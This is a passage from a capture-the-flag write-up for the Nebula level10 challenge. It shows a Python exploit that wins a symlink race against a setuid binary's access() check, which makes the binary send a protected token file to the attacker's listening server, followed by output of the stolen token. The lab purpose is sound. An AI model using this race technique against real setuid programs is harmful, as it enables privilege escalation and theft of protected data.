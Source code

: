 		
	def race_condition():
		"""
		First create a symbolic link to a file which we own
		to bypass the access() check, then change the link to
		the /home/flag10/token after access() was executed.
		"""
		os.chdir('/home/level10/')
		
		# create a file that user level10 owns
		os.system('echo "bla " >> /tmp/testfile')

		# create a link to the previously created file 
		os.system('ln -s -f /tmp/testfile /home/level10/link')

		# call the setuid binary in a non blocking fashion
		subprocess.Popen(['/home/flag10/flag10 /home/level10/link ' + ip], shell=True, 
					stdin=None, stdout=None, stderr=None, close_fds=True)

		# lets hope that access was alraedy executed but read() wasnt't
		# because the connection is still awaiting to get accepted.
		# then change the link location to the token file :)
		os.system('ln -s -f /home/flag10/token /home/level10/link')

		
	def main():
		server = threading.Thread(target=run_server)
		server.start()

		race_condition()

	if __name__ == '__main__':
		main()


When calling the above program, it sometimes works, and sometimes it doesn't. It's probably because the `connect()` call
takes different amount of times. On a successful execution we get:

	:::bash
	level10@nebula:~$ python exploit.py 
	[i] About to run server on ('192.168.56.101', 18211)
	Connecting to 192.168.56.101:18211 .. Connected!
	Sending file .. wrote file!
	Incoming connection from ('192.168.56.101', 41962)
	.oO Oo.
	615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
